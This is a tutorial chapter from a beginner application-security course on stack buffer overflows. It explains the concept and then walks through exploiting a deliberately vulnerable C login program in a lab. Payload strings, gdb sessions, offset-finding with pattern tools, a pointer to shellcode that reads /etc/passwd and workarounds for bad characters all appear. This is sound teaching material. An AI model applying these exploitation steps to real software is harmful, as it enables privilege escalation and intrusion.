# Buffer overflow

Finally, we made it: the first chapter actually talking about application security! Hopefully, by now, you should have all the necessary knowledge to understand what is a buffer overflow and how to exploit it, so let's get started.

## Definition

In the name of the vulnerability "buffer overflow", we have **buffer**... and **overflow**. A buffer is an area in memory where pieces of information \(e.g. variables, saved registers, etc\) are stored temporary to be used later. Typically, the **stack** can be considered as a buffer.


In this beginner course, we will focus on stack-based buffer overflow only.


In a buffer, information is stored contiguously \(one after another\), and we've seen it earlier, when stored in memory, data doesn't have type. This is just a succession of `1` and `0`. What differentiates one piece of information from another is:

* the pointer used to indicate the beginning of the data
* the instruction to be executed
* \(optionally\) the size directive



But for the CPU itself, whether the data processed was initially an integer, a char or float, it doesn't matter, it will execute the instruction regardless of the type of the data pointed by the operand\(s\).This means if we execute an instruction at the **wrong address**/**offset**, we might _mistakenly_ alter neighbour piece\(s\) of information in the buffer.

```text
; snipped based on simple-add.c
mov    eax,DWORD PTR [ebp+0x8]
mov    DWORD PTR [ebp-0xc],eax
mov    eax,DWORD PTR [ebp+0xc]
mov    DWORD PTR [ebp-0a],eax  ; wrong offset which will overwrite previous local variable
```



The most common situation whenever a wrong address/offset occurs is when reading and writing in an array. The iteration counter used for indexing might not be properly verified and end up being higher than the actual size of the memory area allocated for the array, resulting in the array being **overflow** and overwriting the subsequent piece\(s\) of information.



So now you know what a **buffer** is and what we mean by **overflow** in that context.

## Impacts

Being able to overwrite neighbour memory areas could be leveraged for **malicious** purpose. Here are two examples to illustrate the impact of a buffer overflow.

### Edit sensitive neighbour variables

Let say for instance that you are playing an online video game. Your profile should be stored in the stack on the server side. Your profile contains your name, how much money you have \(wallet\), your status \(allied, enemy or moderator\) and the list of items in your inventory.




To be honest, your profile is most likely stored in the heap but for the sake of having a simple example, we continue with this narrative.


Now, let say the function used to update your name doesn't verify if the new name fits the memory area allocated for the name variable in the stack. You could try to update your **name**, with a string long enough so that it overflows the array and overwrite the content of the next variable\(s\), i.e. your balance \(**wallet**\). For instance with the name "Queen Daenerys Targaryen Stormborn." \(35 characters + 1 NULL byte\), which will overflow the 32 bytes array.



The last 3 characters of the new name \(i.e. `rn.`, which in hexadecimal are `0x72`, `0x6e` and `0x2e`\) overflowed the balance variable and we now have `0x002e6e72` = 3042930 \(little-endian\) in our wallet!


Remember that a string always ends up with a `NULL` character


When overwriting the **wallet** variable, we didn't have to write a specific value, we just wanted to be more rich, so we just we just typed random text to overwrite the memory area where your balance is stored. If we were clever, we could also look in the ASCII table which printable character represents the highest value. Unfortunately, the highest value is the non-printable character \(`DEL`\), so we could use the `~` instead \(`0x7e` in hexadecimal\). This means we can change our name to "Queen Daenerys Targaryen Stormbo~~~" in order to have `0x007f7f7f` = 8355711.



But then, why overwriting only the **wallet** you may ask? Why not also overwriting the **status** to be a moderator? 

**Status** can only be `0x00000000` \(moderators\), `0x00000001` \(allies\) or `0x00000002` \(enemies\). What we can do is to overwrite the balance variable with four characters \(the size of an integer\) and stop there. The `NULL` string terminator character of the new name willl then overwrite the first byte of the status integer variable. Since the integers are stored in little-endian, overwriting the first byte will actually overwrite the least significant bit and thus would change the value to `0x00000000`.

Our new name: "Queen Daenerys Targaryen Stormbo~~~~"



### Control the execution flow

In the first example, we overwrote local variables located right after the overflowed array. Those variables were really specific to the program itself and located conveniently after the vulnerable memory area. Now, what if the vulnerable buffer doesn't contains any interesting variable to overflow? How else could I leverage a buffer overflow? You might have guessed by now based on the title: we could also overwrite the return address! If we overwrite the return address, we could basically redirect the execution flow \(almost\) anywhere we want once the current function reaches the `ret` instruction.

If we re-use the previous example with the online game, we would need to overflow the **name** variable, overwrite the **status** and the **inventory** list, then we should have right after that the saved `ebp` and finally the return address. Here is the stack if we change our name to "Daenerys of the House Targaryen the First of Her Name".



At the end of the function, when the epilog is executed, the recovered stack frame from the caller might be completely wrong \(depending on how you overwrote the saved `ebp`\), but this shouldn't be a problem, you now have control of the execution flow and can decide what can be executed next. In this case, the execution flow will be redirected to `0x6d614e20`, which has not been specifically assigned and would most likely crash the application.

## Purpose

Some might wonder why is that interesting to redirect the execution flow or overwrite sensitive variables? Why not just creating a program that does exactly what I want instead exploiting a buffer overflow to redirect the execution to another potentially interesting function? 

Well, exploiting a buffer overflow might be interesting in several scenarios, but here are the three main reasons:

#### Escalate privilege

In Linux, you are often limited to your own user's right. Whenever you run a program, it inherit your access permission. So, if you create a program that opens and reads `/etc/shadow` \(which has read/write access restriction to the user `root` only\), your program won't have the permission to do so \(unless you are `root`\). However, if you manage to find and exploit a buffer overflow on an application running with higher privileges \(let say `root`\), you will be able to execute malicious code with those privilege \(e.g. read `/etc/shadow`\).

One interesting feature of Linux is the SUID. Short for **S**et owner **U**ser **ID**, SUID is a special type of permissions given to a file. When defined, it gives temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. In simple words users will get file owner's permissions as well as owner UID and GID when executing a program \[[1](https://www.linux.com/blog/what-suid-and-how-set-suid-linuxunix)\]. So this means if the `root` user creates a program, set the permission so that anyone can execute it, then set the SUID, you will be able to run that program and the program will have root access permission. So, if you find a buffer overflow in that program, you will be able to execute code as `root`.


This course didn't cover the Linux system and its permission so that's fine if this part is not clear to you.


#### Remote access

You have an application vulnerable to a buffer overflow running on a remote host that I don't have access to. That host has interesting information \(e.g. documents, mails, etc\) and/or resources \(e.g. network access to interesting asset\). The application is a service listening on the network for user inputs, e.g. a web server, DNS server, an online video game server, etc. The data received from the network is used by the function vulnerable to buffer overflow. An attacker could thus send a specifically crafted payload on the service via the network to exploit that vulnerability and execute its own code to gain remote code execution and control the server.

#### Social engineering

For this last example, let's consider a PDF reader vulnerable to buffer overflow. The buffer overflow vulnerability is located in the function that parses the PDF to display the file. An attacker could create a malicious PDF that exploits the vulnerability in order to install a virus. The attacker would then share the PDF using social engineering technique such as phishing to compromise targeted victims.

## Exploitation

In this chapter, we will see how to identify a buffer overflow and control the execution flow to execute a malicious code. We could also explain how to overwrite neighbour variables, but if you understand how to exploit a buffer overflow to redirect the execution, I'm sure you will know how to reuse the technique to overwrite other variables than the return address.

Here is the source code of the application we will use to demonstrate the exploitation steps:


```c
#include <stdio.h>

int verify_password(void);

void main()
{
    int valid;

    valid = verify_password();

    if(valid)
        printf("Password correct");
    else
        printf("Invalid password");
}

int verify_password()
{
    char password[16];

    printf("Enter password: ");
    gets(password);

    if( ! strcmp(password, "letmein") )
        return 1;
    else
        return 0;
}
```


When compiling, don't forget to use the option `-fno-stack-protector` to remove the stack protection against buffer overflow and use `-z execstack` to make the stack executable:

```text
$ gcc login.c -o login -fno-stack-protector -z execstack
```


`gcc` is not going to be happy and will throw some warning because the function `gets` is dangerous. You can ignore the warning and proceed. Here we want to be vulnerable.


Now you can test the application:

```text
$ ./login
Enter password: hello
Invalid password

$ ./login
Enter password: letmein
Password correct
```

### Identifying vulnerability

There are two main ways to identified a buffer overflow vulnerability. One is to look at the source code/assembly \(if we have access\) to find known vulnerable functions, the other one is to inject different types of payload \(usually long one\) and check if the application crashed \(or throw an error\).

#### Source code analysis

Since this course is not meant to teach you reversing, we will assume that we have access to \(a copy\) of the compiled binary application and its source code \(in C\). The first step is to look at the source code for the following known functions prompt to buffer overflow: `gets`, `scanf`, `strcpy`, `strcat`, `sprintf`.

Each time you find any of these functions, \(1\) check if you control the input, \(2\) check if the destination where the result will be stored can hold that final string and finally, \(3\) check if there is any size restriction to prevent an overflow.

In our case, we can see that the function `gets` is used. `gets` doesn't restrict the input size, which you completely control, so the function is always vulnerable to buffer overflow.

#### Blind test

Another way to identify a buffer overflow is to find area in the application taking user input, and for each of them, trying to send a very long string. This is a rather dummy but easy way to test for buffer overflow. Sometimes, in order to trigger a potential buffer overflow, you might need to send some input with a very specific format or size, so this technique is definitely not 100% accurate, but you might find a few vulnerabilities. You can automate this test in a more clever way by using a [fuzzer](https://www.mwrinfosecurity.com/our-thinking/15-minute-guide-to-fuzzing/), but this won't be cover in this course.

So, here in this case, the application doesn't seem to take input from the program arguments \(`argc`\), however, it expects some user input when you run it after printing the message "Enter password: ".

```text
./login
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

As you can see, whenever you send a password too long, the application crash with the following error message:

```text
Segmentation fault (core dumped)
```

The reason is because the **return address** has been overwritten with my long "AAAAA...", \(e.g. 50 $$×$$ "A"\) and therefore, at the end of the epilog, when executing the instruction `ret`, the CPU tries to jump at the address stored in what used to be the return address but is now `0x41414141` \(AAAA in ASCII\). `0x41414141` is not a valid address, hence the crash. 

Let's validate this assumption with gdb:

```text
$ gdb login -q
Reading symbols from login...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble verify_password
Dump of assembler code for function verify_password:
   0x080484b5 <+0>:	push   ebp
   0x080484b6 <+1>:	mov    ebp,esp
   0x080484b8 <+3>:	sub    esp,0x18
   0x080484bb <+6>:	sub    esp,0xc
   0x080484be <+9>:	push   0x80485a2
   0x080484c3 <+14>:	call   0x8048330 <printf@plt>
   0x080484c8 <+19>:	add    esp,0x10
   0x080484cb <+22>:	sub    esp,0xc
   0x080484ce <+25>:	lea    eax,[ebp-0x18]
   0x080484d1 <+28>:	push   eax
   0x080484d2 <+29>:	call   0x8048340 <gets@plt>
   0x080484d7 <+34>:	add    esp,0x10
   0x080484da <+37>:	sub    esp,0x8
   0x080484dd <+40>:	push   0x80485b3
   0x080484e2 <+45>:	lea    eax,[ebp-0x18]
   0x080484e5 <+48>:	push   eax
   0x080484e6 <+49>:	call   0x8048320 <strcmp@plt>
   0x080484eb <+54>:	add    esp,0x10
   0x080484ee <+57>:	test   eax,eax
   0x080484f0 <+59>:	jne    0x80484f9 <verify_password+68>
   0x080484f2 <+61>:	mov    eax,0x1
   0x080484f7 <+66>:	jmp    0x80484fe <verify_password+73>
   0x080484f9 <+68>:	mov    eax,0x0
   0x080484fe <+73>:	leave  
   0x080484ff <+74>:	ret    
End of assembler dump.
(gdb) break *0x080484ff
Breakpoint 1 at 0x80484ff
(gdb) run
Starting program: /home/lab/login 
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484ff in verify_password ()
(gdb) x/x $esp
0xbfffeeec:	0x41414141
(gdb) nexti
0x41414141 in ?? ()
(gdb) info registers eip
eip            0x41414141	0x41414141
(gdb) x/10i $eip
=> 0x41414141:	Cannot access memory at address 0x41414141
```

When looking at the different section of the memory \(stack, heap, .text. etc\), we can see that there nothing loaded in memory around the address `0x41414141`:

```text
(gdb) info proc mappings
process 7454
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/lab/login
	 0x8049000  0x804a000     0x1000        0x0 /home/lab/login
	 0x804a000  0x804b000     0x1000     0x1000 /home/lab/login
	 0x804b000  0x806c000    0x21000        0x0 [heap]
	0xb7e08000 0xb7e09000     0x1000        0x0 
	0xb7e09000 0xb7fb9000   0x1b0000        0x0 /lib/i386-linux-gnu/libc-2.23.so
	0xb7fb9000 0xb7fbb000     0x2000   0x1af000 /lib/i386-linux-gnu/libc-2.23.so
	0xb7fbb000 0xb7fbc000     0x1000   0x1b1000 /lib/i386-linux-gnu/libc-2.23.so
	0xb7fbc000 0xb7fbf000     0x3000        0x0 
	0xb7fd5000 0xb7fd6000     0x1000        0x0 
	0xb7fd6000 0xb7fd9000     0x3000        0x0 [vvar]
	0xb7fd9000 0xb7fdb000     0x2000        0x0 [vdso]
	0xb7fdb000 0xb7ffe000    0x23000        0x0 /lib/i386-linux-gnu/ld-2.23.so
	0xb7ffe000 0xb7fff000     0x1000    0x22000 /lib/i386-linux-gnu/ld-2.23.so
	0xb7fff000 0xb8000000     0x1000    0x23000 /lib/i386-linux-gnu/ld-2.23.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

Since nothing is written in `0x41414141`, the application crashes.

### Finding offset

If we want leverage a buffer overflow to control the execution flow, we need to know at which offset of the payload do we start overwriting the return address. One way to know it would be to send the following pattern using gdb: "AAABBBCCCDDDEEEFFFGGGHHH..." \(i.e. the alphabet with each letter repeated three times\).

```text
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/lab/login 
Enter password: AAABBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLLMMMNNNOOOPPP

Breakpoint 1, 0x080484ff in verify_password ()
(gdb) x/x $esp
0xbfffef1c:	0x4b4b4a4a
```

The **return address** has been overwritten with `0x4b4b4a4a`, which in ASCII is "KKJJ", but since `gdb` is representing the data in little-endian, we should read the hexadecimal values backward: "JJKK". According to our generated pattern, "JJKK" is at an offset of 28. 



To verify that, we could send a string of 28 "A" followed by 4 "B":

```text
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/lab/login 
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB               

Breakpoint 1, 0x080484ff in verify_password ()
(gdb) x/x $esp
0xbfffeeec:	0x42424242
```

So now, we just need to replace the four B's with the address of the function \(or group of instructions\) we want to execute.

Building this pattern manually and counting the offset is tedious and not scalable. What if we have to overflow an array of a thousand bytes? What pattern to use once we exhausted the entire alphabet and how long will it take to count the offset? Why not automating the process? Well, of course, someone build a script for that. Actually, two scripts. One for generating the pattern and one to find the offset. The most known is the ones are [pattern\_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) and [pattern\_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) from [Rapid7](https://www.rapid7.com) available with [metasploit](https://www.metasploit.com) \(a popular framework for application security assessment\). Unfortunately, those scripts needs metasploit to work, so instead of installing the entire framework we will just use its online version developed by [zerosum0x0](https://twitter.com/zerosum0x0) available [here](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html).

On this interface, you simply need to enter how long should be the pattern. Based on the previous step \([identifying vulnerability](buffer-overflow.md#identifying-vulnerability)\), you should know a length that overwrites the return address \(and crash the application\). You can re-use that length. In our case, we know 50 `A` did the job.



Once entered, you can click on "Generate" to generate the pattern. Once done, go back in gdb, run the application and paste the generated pattern:

```text
$ gdb login -q
Reading symbols from login...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/lab/login 
Enter password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab

Program received signal SIGSEGV, Segmentation fault.
0x62413961 in ?? ()
(gdb) info registers eip
eip            0x62413961	0x62413961

```

We can see that execution flow has been redirected to the address `0x62413961`. This means the return address has been overwritten with that value. Now, we need to find at which offset of our pattern we have the values **a** \(`0x61`\), **9** \(`0x39`\), **A** \(`0x41`\) and **b** \(`0x62`\).


Remember, little-endian...


For this, you need to enter **a9Ab** in the form and it will calculate the offset for you.



### Where to jump

Now that we control the execution flow, where do we want to jump? What do we want to execute? Ideally, that'd be nice if there were a function already in the program written by the developer that we are interested in. Then, we would just need to enter the address where this function \(or part of function\) is located.

I know this is not really interesting, but let's try to jump back in the `main` function to execute line 12:

```c
printf("Password correct");
```

Let's have a look again at the disassembled `main` function:

```text
$ gdb login -q
Reading symbols from login...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804846b <+0>:	lea    ecx,[esp+0x4]
   0x0804846f <+4>:	and    esp,0xfffffff0
   0x08048472 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048475 <+10>:	push   ebp
   0x08048476 <+11>:	mov    ebp,esp
   0x08048478 <+13>:	push   ecx
   0x08048479 <+14>:	sub    esp,0x14
   0x0804847c <+17>:	call   0x80484b5 <verify_password>
   0x08048481 <+22>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048484 <+25>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x08048488 <+29>:	je     0x804849c <main+49>
   0x0804848a <+31>:	sub    esp,0xc
   0x0804848d <+34>:	push   0x8048580
   0x08048492 <+39>:	call   0x8048330 <printf@plt>
   0x08048497 <+44>:	add    esp,0x10
   0x0804849a <+47>:	jmp    0x80484ac <main+65>
   0x0804849c <+49>:	sub    esp,0xc
   0x0804849f <+52>:	push   0x8048591
   0x080484a4 <+57>:	call   0x8048330 <printf@plt>
   0x080484a9 <+62>:	add    esp,0x10
   0x080484ac <+65>:	nop
   0x080484ad <+66>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080484b0 <+69>:	leave  
   0x080484b1 <+70>:	lea    esp,[ecx-0x4]
   0x080484b4 <+73>:	ret    
End of assembler dump.
(gdb) x/s 0x8048580
0x8048580:	"Password correct"
```

The printf we want to execute is located at `0x08048492`. But in order to print "Password correct", we also need to execute the previous instruction that push to the stack the pointer to the string "Password correct". So instead of jumping at the `call 0x08048580`, we should jump at the instruction right before, i.e. `0x0804848d` \(we will do it later in the chapter "[send your payload](buffer-overflow.md#send-your-payload)"\).

But now, what if we wanted to execute our own function/instructions? We would first need to inject into memory the instructions, find the address then overwrite the return address with it. How to inject instruction into memory? Simple, we just embed it within the string we use to overflow the buffer. Either before the address or after. Those instructions that we embed is actually called a **shellcode**.



As a beginner course, we will not see how to create our own function in assembly, instead, we will use shellcodes from a [shell-storm.org](http://shell-storm.org/shellcode/). This is kind of a library for shellcode. First we need to find the right platform. In our case, we need **Linux** &gt; **Intel x86**. In our example, we will use [bin/cat /etc/passwd](http://shell-storm.org/shellcode/files/shellcode-571.php), a shellcode that will read and print the content of the file `/etc/passwd`.

### Limitation

When building our payload, we will face two main issues. One is that the shellcode and the address will most likely contain non printable characters \(from `0x00` to `0x1f` and from `0x7f` to `0xff`\). The second is that usually, the payload cannot contain the `NULL` character as it will most-likely truncate the payload and everything behind the `NULL` character will be ignored. Depending on the program and the way the user input is handled, we might have even more characters that will be removed or have weird behaviour. Those characters are called **bad characters**.

#### Non-printable characters

In order to use non-printable characters in your final payload, you have multiple solutions. One would be to use the application `/bin/echo` with the parameter `-e` and `-n`. 

`-e` enable interpretation of backslash escapes, so if you send in argument `"\x41"`, it will output `A`:

```text
$ echo -e "\x41"
A
```

Now, if you want to write the `0x01020304`, you can execute `echo -e "\x01\x02\x03\x04"`.

`-n` is not mandatory, but it basically remove the trailing newline character. This is to make sure you send exactly what you want as payload.

Another solution would be to use a scripting language, such as _python_, _perl_ or _ruby_. Using a scripting language is also really convenient whenever you have a long offset. Instead of typing 28 `A` for instance, you could execute the following line:

```text
$ python -c "print 28*'A' + '\x01\x02\x03\x04'"
AAAAAAAAAAAAAAAAAAAAAAAAAAAA????
```

The parameter `-c` allows you to write the python script directly in the command line. Here, we also wrote the characters `0x01`, `0x02`, `0x03` and `0x04` after the 28 `A`. We will have more example in the sub-chapter [send your payload](buffer-overflow.md#send-your-payload).

#### NULL and bad characters

Once the offset calculated, the next step is to actually list all the bad characters, all characters that are either stripped, altering or terminating the initial user input. We won't see the technique to list the bad characters in this course, but in essence, you basically send a list of all possible bytes \(from `0x00` to `0xff`\), then check the memory with gdb to identify if some bytes has changed or terminated the string.

It is usually possible and easy to avoid NULL characters or bad chars in the shellcode. For instance, let's say part of the shellcode needs to set the register `eax` to `0x00000000`. Instead of using the following `mov` instruction:

```text
mov eax, 0x00     ; machine code = b8 00 00 00 00
```

We can use the following `xor` instruction which has the same result:

```text
xor eax, eax      ; machine code = 31 c0
```

So each time you have instructions that contains a `0x00`, there should be an equivalent instruction \(or set of instruction\) that doesn't contain `0x00`.

